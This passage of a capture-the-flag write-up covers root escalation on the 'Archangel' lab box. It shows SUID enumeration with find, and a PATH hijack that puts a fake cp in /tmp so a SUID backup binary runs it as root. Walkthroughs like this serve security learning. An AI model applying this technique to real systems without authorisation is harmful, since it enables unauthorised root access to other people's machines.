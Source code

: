 - [x] Flag 1: Hostname
- [x] Flag 2: Exploiting LFI
- [x] Flag 3: Initial Access
- [x] Flag 4: User Flag
- [ ] Flag 5: Root Flag

### <b>Gaining Root access (Vertical)</b>

Upon gaining access to the ```archangel``` account, I was keen to identify any binaries with SUID permissions since I lacked passwords for any of the users. Consequently, I ran the following command:

``` sh linenums="1" hl_lines="18"
find / -type f -perm -04000 -ls 2>/dev/null

392217     40 -rwsr-xr-x   1 root     root        40344 Mar 23  2019 /usr/bin/newgrp
396413     76 -rwsr-xr-x   1 root     root        75824 Mar 23  2019 /usr/bin/gpasswd
393011     76 -rwsr-xr-x   1 root     root        76496 Mar 23  2019 /usr/bin/chfn
395021     44 -rwsr-xr-x   1 root     root        44528 Mar 23  2019 /usr/bin/chsh
396417     60 -rwsr-xr-x   1 root     root        59640 Mar 23  2019 /usr/bin/passwd
406571     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
396823    148 -rwsr-xr-x   1 root     root       149080 Sep 23  2020 /usr/bin/sudo
392437     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
524345    428 -rwsr-xr-x   1 root     root         436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
396700     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
652899     28 -rwsr-xr-x   1 root     root          26696 Sep 17  2020 /bin/umount
652831     44 -rwsr-xr-x   1 root     root          44664 Mar 23  2019 /bin/su
652862     44 -rwsr-xr-x   1 root     root          43088 Sep 17  2020 /bin/mount
660690     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
652934     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
1053235     20 -rwsr-xr-x   1 root     root          16904 Nov 18  2020 /home/archangel/secret/

```

During the search, I noticed that the ```/home/archangel/secret/``` directory appeared suspicious. Further investigation revealed the presence of an `ELF binary` with the SUID bit set. I used the `strings` command to examine its content, which indicated that the binary was copying files using the following command:

``` sh
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

However, since the path did not exist, it was unlikely that the program would run successfully. To exploit this vulnerability, I created a `cp` binary file in the` /tmp` directory and added the path to it as follows:

``` sh
export PATH="/tmp:$PATH"
```

With this modification, I was able to execute the "cp" command with the SUID permissions and obtain a root shell.

- [x] Flag 1: Hostname
- [x] Flag 2: Exploiting LFI
- [x] Flag 3: Initial Access
- [x] Flag 4: User Flag
- [x] Flag 5: Root Flag
